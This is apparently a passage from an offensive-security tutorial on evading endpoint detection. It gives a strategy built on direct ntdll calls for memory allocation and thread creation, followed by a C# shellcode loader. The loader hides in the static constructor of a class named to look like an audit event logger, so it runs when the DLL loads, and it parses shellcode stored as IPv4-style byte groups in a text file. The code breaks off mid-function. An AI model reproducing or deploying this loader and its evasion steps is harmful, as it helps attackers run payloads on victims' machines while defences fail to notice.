 These provide more stealth by bypassing userland hooks and calling directly into ntdll.dll functions.

Example strategy:

- Decrypt your shellcode in memory
- Allocate memory via NtAllocateVirtualMemory
- Copy with RtlMoveMemory
- Execute with NtCreateThreadEx

Sleep or delay execution to avoid behavioral triggers. In our case, we change our ```initial message box with callback.cs``` and stop using ```VritualAllocCreateThread```. 

```
using System;
using System.Collections.Generic;
using System.IO;
using System.Linq;
using System.Text;
using System.Runtime.InteropServices;
using System.Windows.Forms;

namespace XXXXXX.Diagnostics.Audit
{
    public static partial class EventLogger
    {
        static EventLogger()
        {
            try
            {
                // Get the directory where the DLL is running
                string dllPath = System.Reflection.Assembly.GetExecutingAssembly().Location;
                string basePath = Path.GetDirectoryName(dllPath);
                string filenamePath = Path.Combine(basePath, "Shellcode.txt");

                MessageBox.Show($"Triggering shellcode from: {filenamePath}", "DEBUG");

                if (File.Exists(filenamePath))
                {
                    ExecuteShellcodeFromFile(filenamePath);
                }
                else
                {
                    MessageBox.Show("Shellcode.txt not found!", "DEBUG");
                }
            }
            catch (Exception ex)
            {
                MessageBox.Show($"Error: {ex.Message}", "DEBUG");
            }
        }

        private static void ExecuteShellcodeFromFile(string filename)
        {
            try
            {
                string[] lines = File.ReadAllLines(filename);
                List<byte> shellcode = new List<byte>();

                foreach (var line in lines)
                {
                    string[] parts = line.Split('.');
                    if (parts.Length == 4)
                    {
                        shellcode.AddRange(parts.Select(byte.Parse));
                    }
```